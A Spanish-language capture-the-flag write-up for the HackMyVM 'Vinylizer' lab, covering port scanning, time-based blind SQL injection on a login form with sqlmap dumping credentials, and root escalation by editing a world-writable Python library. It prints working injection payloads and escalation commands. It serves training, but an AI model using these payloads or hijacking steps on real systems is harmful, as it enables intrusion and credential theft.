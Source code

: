```yaml
---
layout: default
title: Vinylizer
parent: HackMyVM
---
```


# Color Utilities
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.90
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

### Puerto 80 (HTTP)

(si hacemos fuzzing de directorios y archivos no encontraremos nada interesante)

Una de las cosas que nos llaman la atencion es un panel de login, donde al ingresar cualquier usuario, nos dara el mensaje "User not found"

![](/assets/img/vinylizer/1.png)

Si interceptamos la peticion con burpsuite nos podemos dar cuenta que existe el parametro "login"

![](/assets/img/vinylizer/2.png)

Podriamos pensar que al darle "login=true" vamos a iniciar sesion pero no es posible, asi que podemos empezar a probar con los parametros, si agremos una comilla simple despues de **username** vemos como nos arroja un HTTP 500

```bash
username=hola'&password=holi&login=
```
```ruby
HTTP/1.0 500 Internal Server Error
Date: Fri, 02 Feb 2024 22:40:00 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8
```
Por lo cual podriamos interntar probar SQLi

## Explotacion (SQLi Time-based blind)

Despues de probar un rato, me doy cuenta que existe una vulnerabilidad SQLi a ciegas basada en tiempo. Para corroborar esto podemos ejecutar lo siguiente en el parametro **username**

```ruby
username=hola'+or+sleep(5)--+-&password=holi&login=
```
Nos podemos dar cuenta que es vulnerable por que el servidor tarda 5 segundos en darnos una respuesta, en este punto podemos empezar a enumerar el nombre de la base de datos haciendo uso de este payload:

```ruby
OR IF(SUBSTR(database(),1,1)="v", sleep(5),1)-- -
```

```ruby
username=hola'+OR+IF(SUBSTR(database(),1,1)%3d"v",+sleep(5),1)--+-&password=holi&login=
```

Basicamente lo que hace es extrer 1 letra desde la primera posicion del nombre de la base de datos, lo que se traduciria como la primera letra del nombre de la base de datos, luego lo compara con la letra "v", si esta comparacion devuelve TRUE, entonces tardara 5 segundos en darnos una respuesta, en este caso si tardara por que es la primera letra, y asi debemos der hacerlo letra por letra, para no hacerlo tan largo usare sqlmap. De todas formas si quieres saber como explotar un SQLi time-based manualmente puedes leer este post en mi blog: [https://ic4rta.github.io/2023/03/28/sqli/](https://ic4rta.github.io/2023/03/28/sqli/)

Usando sqlmap encontraremos la base de datos vinyl_marketplace y la tabla usuarios, asi que usando lo siguiente podemos mostrar los datos:

```bash
sqlmap -u "http://192.168.1.90/login.php" --data="username=c4rta&password=c4rta&login=" --batch --dump -T users -D vinyl_marketplace
```
Y encontraremos las credenciales del usuario shopadmin:

usr: shopadmin
pass: 9432522ed1a8fca612b11c3980a031f6 (esta en md5 asi que se debe de crackear)

Y ya tendriamos la flag de user

## Escalada

Si vemos los permisos a nivel de sudoers veremos que podemos ejecutar el script vinylizer

```bash
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py
```

Al ver el script vemos que se estan importando las librerias json y random, por redomendacion, les sugiero que si esta explotando un script de python, vean si las librerias que se estan importanto tienen permisos de escritura

Para buscar archivos con escritura podemos usar este comando:

```bash
find / -type f -writable 2>/dev/null
```

Y veremos que tenemos permisos 777 en **/usr/lib/python3.10/random.py**

```bash
-rwxrwxrwx 1 root root 33221 Nov 20 15:14 /usr/lib/python3.10/random.py
```

### Python Library Hijacking (RW permissions)

Un escenario de python library hijacking, es que se este importando una libreria la cual tiene permisos de escritura, asi que nosotros podemos modificar su contenido para que relice una accion arbitraria, si quieres saber de otros escenarios puedes leer: [https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

Ahora modificaremos el codigo de la libreria para ejecutar **/bin/bash -p**

![](/assets/img/vinylizer/3.png)

(este codigo yo lo puse antes de las otras declaraciones de **import os**, en mi caso lo puse al principio)

Y ya somos root

![](/assets/img/vinylizer/4.png)
